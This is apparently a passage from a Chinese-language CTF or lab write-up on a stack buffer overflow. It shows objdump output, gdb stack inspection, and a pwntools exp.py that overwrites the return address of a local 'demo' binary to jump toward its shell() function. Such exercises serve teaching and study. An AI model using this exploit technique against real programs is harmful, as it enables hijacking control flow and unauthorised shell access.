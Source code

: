   4011fd:       48 83 c3 01             add    rbx,0x1
  401201:       48 39 dd                cmp    rbp,rbx
  401204:       75 ea                   jne    4011f0 <__libc_csu_init+0x40>
  401206:       48 83 c4 08             add    rsp,0x8
  40120a:       5b                      pop    rbx
  40120b:       5d                      pop    rbp
  40120c:       41 5c                   pop    r12
  40120e:       41 5d                   pop    r13
  401210:       41 5e                   pop    r14
  401212:       41 5f                   pop    r15
  401214:       c3                      ret
  401215:       66 66 2e 0f 1f 84 00    data16 nop WORD PTR cs:[rax+rax*1+0x0]
  40121c:       00 00 00 00

0000000000401220 <__libc_csu_fini>:
  401220:       f3 0f 1e fa             endbr64
  401224:       c3                      ret

Disassembly of section .fini:

0000000000401228 <_fini>:
  401228:       f3 0f 1e fa             endbr64
  40122c:       48 83 ec 08             sub    rsp,0x8
  401230:       48 83 c4 08             add    rsp,0x8
  401234:       c3                      ret

:::
    
![](https://i.imgur.com/Wcs23Xk.png)

shell()位於0x401156，如上圖
    
* `gdb demo`
    
* b main

* r (執行)





![](https://i.imgur.com/syk75vo.png)

看了一下stack和asm code，vuln()最後會`mov $rsp, $rbp`，$rsp會指向$rbp`400`，之後`pop $rbp` `pop $rsp`，$rsp會拿到408的值，目前是`<main+30> mov eax, 0x0`，也就是return address，是我們要蓋掉的。
![](https://i.imgur.com/friADMa.png)
    
## 寫 exp.py
`vim exp.py`
    
```python=
#!/usr/bin/env python3
from pwn import *

p = process('./demo')
pause()
payload  = b'a'*10
payload += p64(0)                # p64() 用8bytes進行包裝
payload += p64(0x40117e)
payload += b"\n"

p.send(payload)
print(payload)
#offset=b'a'*0x18
#p.sendline(offset.decode('utf8')+payload.decode('utf8'))
p.interactive()
```
    